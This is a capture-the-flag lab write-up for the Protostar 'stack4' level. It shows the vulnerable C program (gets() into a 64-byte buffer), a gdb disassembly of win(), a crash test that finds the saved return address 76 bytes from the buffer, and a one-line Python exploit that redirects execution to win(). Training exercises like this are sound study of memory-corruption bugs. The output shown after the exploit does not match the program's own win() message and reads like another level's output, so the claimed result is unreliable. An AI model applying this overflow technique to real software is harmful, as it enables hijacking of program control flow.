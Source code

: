 ```yaml
---
title: "stack4"
date: "2023-05-16"
site: https://exploit.education/protostar/
---
```


```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Disassembly

```c
user@protostar:/opt/protostar/bin$ gdb -batch -ex 'file stack4' -ex 'disassemble win'
Dump of assembler code for function win:
0x080483f4 <win+0>:     push   %ebp
0x080483f5 <win+1>:     mov    %esp,%ebp
0x080483f7 <win+3>:     sub    $0x18,%esp
0x080483fa <win+6>:     movl   $0x80484e0,(%esp)
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
End of assembler dump.
```

## Analysis

We no longer have a `modified` variable right above it.

However, the `eip` is still located above `buffer` so we can still overwrite it.

We need to overwrite it to the value of `0x080483f4`.

```
(gdb) r
Starting program: /opt/protostar/bin/stack4
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDZZZZ

Program received signal SIGSEGV, Segmentation fault.
0x5a5a5a5a in ?? ()
```

We can calculate that the `eip` is 76 bytes away from the start of `buffer`.

### Exploit

```bash
user@protostar:/opt/protostar/bin$ echo $(python -c 'print "A"*76 + "\xf4\x83\x04\x08"') | ./stack4
you have changed the 'modified' variable
Try again?
Segmentation fault
```
